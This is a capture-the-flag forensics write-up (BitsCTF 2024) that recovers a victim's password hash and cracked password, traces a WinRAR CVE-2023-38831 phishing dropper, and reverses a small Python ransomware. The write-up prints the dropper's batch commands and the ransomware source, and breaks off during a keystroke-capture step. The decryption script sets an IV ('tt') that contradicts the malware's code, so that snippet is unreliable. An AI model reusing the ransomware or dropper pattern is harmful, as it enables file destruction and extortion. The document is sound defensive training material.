# Digital Forensics and Incident Response (DFIR)

## Intro to DFIR (BitsCTF 2024)
DFIR or Digital Forensics and Incident Response is a field within cybersecurity that focuses on the identification, investigation, and remediation of cyberattacks. Here are the types of analysis you can expect throughout these sequence of challenges!

`Memory Analysis`: Imagine being able to peek into the volatile memory of a computer system to extract valuable information about running processes, network connections, and even malicious activities. Memory analysis is a powerful technique used by digital forensics experts to gather evidence that might not be present on disk. Throughout this challenge, you'll learn how to extract and analyze memory dumps, identify suspicious processes, uncover hidden malware, and reconstruct user activity from memory artifacts.

`Network Analysis`: Networks are the lifeblood of modern computing, but they can also be a treasure trove of forensic evidence. Network analysis involves examining data packets flowing through a network to identify communication patterns, detect unauthorized access, and reconstruct digital interactions. In this challenge, you'll have the opportunity to analyze network traffic captures to pinpoint malicious connections, identify data exfiltration attempts, and trace the paths of cyber attacks.

Flag : BITSCTF{DFIR_r0ck55} There are a total of 7 DFIR challenges, including this. The above linked files are to be used for all of them. Submitting this flag will unlock the subsequent challenges for the category. Lets see what happened with MogamBro :(

!!!- WARNING: Some files may contain explicit content. Stick to pastebin & safe links only. !!!

Lets Begin...

In this challenge we will do a lot of analysis from provided files:
`artifacts.ad1` `memdump.mem` `trace.pcap`

### Mem Info File Checking

Before going through the challenges, I checked the info `memdump.mem` file first to know what OS was used by the victim. For memory dump analysis I used `volality3` tool.

```
$ python3 ~/CTFLab/tools/forensics/volatility3/vol.py -f memdump.mem info.Info                
Volatility 3 Framework 2.5.1
Progress:  100.00		PDB scanning finished                          
Variable	Value

Kernel Base	0xf80611800000
DTB	0x1aa000
Symbols	file:///media/shanks/Lab01/CTFLab/tools/forensics/volatility3/volatility3/symbols/windows/ntkrnlmp.pdb/D9424FC4861E47C10FAD1B35DEC6DCC8-1.json.xz
Is64Bit	True
IsPAE	False
layer_name	0 WindowsIntel32e
memory_layer	1 FileLayer
KdVersionBlock	0xf8061240f400
Major/Minor	15.19041
MachineType	34404
KeNumberProcessors	4
SystemTime	2024-02-15 16:37:18
NtSystemRoot	C:\Windows
NtProductType	NtProductWinNt
NtMajorVersion	10
NtMinorVersion	0
PE MajorOperatingSystemVersion	10
PE MinorOperatingSystemVersion	0
PE Machine	34404
PE TimeDateStamp	Mon Dec  9 11:07:51 2019
```

!!!- Note The OS used by the victim is `Windows` then we will use `windows` plugins in `volatility3`.

## Scenario 1: Access Granted!

`Description`

First things first. MogamBro is so dumb that he might be using the same set of passwords everywhere, so lets try cracking his PC's password for some luck.

Flag Format : BITSCTF{password} Obviously you get access to further challenges only if you have the password ;)

`Solution`

This is basically a password hunting in the given files and `same set of passwords everywhere` means we will be cracking the password. So, I started with the `memdump.mem` file and use `windows.hashdump` to extract the password hashes from the memory dump.

```bash
$ python3 ~/CTFLab/tools/forensics/volatility3/vol.py -f memdump.mem windows.hashdump.Hashdump
Volatility 3 Framework 2.5.1
Progress:  100.00		PDB scanning finished                          
User	        rid	lmhash	                                nthash

Administrator	500	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
Guest	        501	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
DefaultAccount	503	aad3b435b51404eeaad3b435b51404ee	31d6cfe0d16ae931b73c59d7e0c089c0
WDAGUtili...	504	aad3b435b51404eeaad3b435b51404ee	74d0db3c3f38778476a44ff9ce0aefe2
MogamBro	1000	aad3b435b51404eeaad3b435b51404ee	8a320467c7c22e321c3173e757194bb3
```

It's abvious `MogamBro` is the user that I am looking for. Now, I cracked his `nthash` password with [crackstation](https://crackstation.net/) online cracking tool or we can use `john` or `hashcat` to crack the password.



`FLAG: BITSCTF{adolfhitlerrulesallthepeople}`

## Scenario 2: 0.69 Day

`Description`

MogamBro was using some really old piece of software for his daily tasks. What a noob! Doesn't he know that using these deprecated versions of the same leaves him vulnerable towards various attacks! Sure he faced the consequences through those spam mails.

Can you figure out the CVE of the exploit that the attacker used to gain access to MogamBro's machine & play around with his stuff.

Flag format : BITSCTF{CVE-YYYY-NNNNN} This challenge unlocks another challenge - 'Lottery'


`Solution`

To hunt the CVE of the exploit that the attacker used to gain access to MogamBro's machine, I started with the `artifact.ad1` and used `FTK Imager` for further analysis or we can use `Autopsy` or still the `volatility3 ` for `memdump.mem` but I want fast analysis.




I analyzed how Mogambro's machine was compromised and where the exploit came from. After browsing MogaBro's files, I found where was the exploit started and located.




I found out it started with the `mogabro's` email and the attacker sent him a `malicious` file and he opened it and the exploit started.





The `zip` file contains the `exploit` which was the `step.pdf` bait and seems like the exploit is familiar for me from DarkPink APT WinRAR 0-day. So I searched for WinRARs version by exploring WinRAR's temporary files or in the `Program Files` folder where applications installed.



### WinRAR 6.22

I searched the winrar versions info with google and found the `CVE-2023-38831` which is the exploit used by the attacker to gain access to MogamBro's machine.



`FLAG: BITSCTF{CVE-2023-38831}` Now, I unlocked the next challenge `Lottery`.

## Scenario 3: Lottery

`Description`

Now that you know the CVE, figure out how the attacker crafted the payload & executed it to compromise the 'secret'.

`Solution`

I continued with the `steps.pdf.bat` for Malware analysis that executes the command:

```bat
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

I then extracted Mogambro's `Downloads` folder and proceed with the `lottery.exe` and `secret.png.enc` file. But now I will be using `Remnux OS` for further malware analysis.



I ran the `lottery.exe` file in the `Remnux OS` with `wine` and found that it's a `Ransomware` and encrypted the `secret.png` file.

I now started with reverse engineering the `lottery.exe` and found `pyd` files. So it was built with Python.


I extracted `pyc` from `pyd` files using `pyinstxtractor`.
```
$ python3 ../pyinstxtractor/pyinstxtractor.py lottery.exe
[+] Processing lottery.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.8
[+] Length of package: 9008682 bytes
[+] Found 122 files in CArchive
[+] Beginning extraction...please standby
[+] Possible entry point: pyiboot01_bootstrap.pyc
[+] Possible entry point: pyi_rth_pkgutil.pyc
[+] Possible entry point: pyi_rth_inspect.pyc
[+] Possible entry point: pyi_rth_multiprocessing.pyc
[+] Possible entry point: pyi_rth_setuptools.pyc
[+] Possible entry point: pyi_rth_pkgres.pyc
[+] Possible entry point: lottery.pyc
[+] Found 356 files in PYZ archive
[+] Successfully extracted pyinstaller archive: lottery.exe

You can now use a python decompiler on the pyc files within the extracted directory
```

I then decompiled the `lottery.pyc` bytecode with `uncompyle6`.

```
$ uncompyle6 lottery.pyc 
```

```python
# uncompyle6 version 3.9.0
# Python bytecode version base 3.8.0 (3413)
# Decompiled from: Python 3.8.10 (default, Nov 22 2023, 10:22:35) 
# [GCC 9.4.0]
# Embedded file name: lottery.py
import os, tempfile
from Crypto.Cipher import AES
from Crypto.Util.Padding import pad

def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode='w+b', delete=False)
    fp.write(key)
    return key


def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as (file):
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + '.enc'
    with open(encrypted_file_path, 'wb') as (encrypted_file):
        encrypted_file.write(encrypted_data)
    os.remove(file_path)


if __name__ == '__main__':
    key = generate_key()
    file_path = 'secret.png'
    encrypt_file(file_path, key)
    print('Dear MogamBro, we are fucking your laptop with a ransomware & your secret image is now encrypted! Send $69M to recover it!')
# okay decompiling lottery.pyc
```

### *Everything is open source if you can reverse engineer.*

Yeah, it's very true. So I did continue with static analysis by analyzing how the secret.png was being encrypted.

Let's break the code...

```py
def generate_key():
    key = os.urandom(32)
    fp = tempfile.TemporaryFile(mode='w+b', delete=False)
    fp.write(key)
    return key
```

This function will generate a random key and will be stored as tempory file. Since `delete after` was disabled then we can search where the temp was being stored in the ad1 and use it as our key for decryption.

```py
def encrypt_file(file_path, key):
    iv = b'urfuckedmogambro'
    with open(file_path, 'rb') as (file):
        data = file.read()
        padded_data = pad(data, AES.block_size)
        cipher = AES.new(key, AES.MODE_CBC, iv)
        encrypted_data = cipher.encrypt(padded_data)
    file.close()
    encrypted_file_path = file_path + '.enc'
    with open(encrypted_file_path, 'wb') as (encrypted_file):
        encrypted_file.write(encrypted_data)
    os.remove(file_path)
```
By means, the `secret.png` file was encrypted with `AES` and in `CBC` mode and the `iv` was `urfuckedmogambro`.

To know where the temporary file was stored, I found a [tutorial](https://www.askpython.com/python-modules/tempfile-module-in-python) which talks about python `TemporaryFile` in linux. But in Windows is `C:\Users\mogambro\AppData\Local\Temp` and the file name is `tmpxxxxx` where `xxxxx` is a random string.



Now I wrote a python script to decrypt the `secret.png.enc` file.

```python
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

with open("secret.png.enc", "rb") as f:
    encrypted_data = f.read()

with open("tmpd1tif_2a", "rb") as f:
    key = f.read()

def decrypt(key, encrypted_data, iv):
    cipher = AES.new(key, AES.MODE_CBC, iv)
    decrypted_data = cipher.decrypt(encrypted_data)
    return unpad(decrypted_data, AES.block_size)

iv = 'tt'.encode('utf-8')

decrypted_data = decrypt(key, encrypted_data, iv)

with open("secret.png", "wb") as f: 
    f.write(decrypted_data) # PNG image recovered
```



`FLAG: BITSCTF{1_r3c3ived_7h3_b0mbz}`


## Scenario 4: MogamBro's guilty pleasure

`Description`

MogamBro was spammed with a lot of emails, he was able to evade some but fell for some of them due to his greed. Can you analyze the emails & figure out how he got scammed, not once but twice!

`Solution`

Since MogamBro was scammed twice, I continued with the second email.



I used [EML Analyzer](https://eml-analyzer.herokuapp.com/#/) as eml anlysis tool to make the second spammed mail more readable. There is no attachment and only plain text message was found.



I don't know what is the plain text message for. Maybe this is a puzzle?. So what I did was to search the first 2 sentences of the plain text message and found a google groups converstion which is the same look as the plain text message.


Then the subject from the mail of this scenario makes sense with the link provided from the the google groups conversation. http://www.spammimic.com/ (50% Discount available on the Mimikyu plushie)

 `MIMIK` -> `MIMIC`

 

So the attacker used the `spammimic` to scam MogamBro. Then I decoded the message with  `spammimic` and found the `flag`.





`FLAG: BITSCTF{sp4m_2_ph1sh_U}`

## Now lets play the other scenarios which is more Network Analysis now.

## Scenario 5: I'm Wired In

`Description`

MogamBro got scared after knowing that his PC has been hacked and tried to type a SOS message to his friend through his 'keyboard'. Can you find the contents of that message, obviously the attacker was logging him!

`Solution`

While searching of Mogambro's files in the `artifact.ad1` I also found a `keylog.pcapng` and `keys` files.

 

For this scenario I will be using `Wireshark` for analysis.



Every key pressed by MogamBro was logged by the attacker. In the pcapng we cannot follow the streams since these Interrupts are the keystrokes captured. What I only need to do is to filter and extract only the keystrokes packets.

Filtering USB Keyboard packets:
```
usb.transfer_type == 0x1 and frame.len == 35 and !(usb.capdata == 00:00:00:00:00:00:00:00)
```

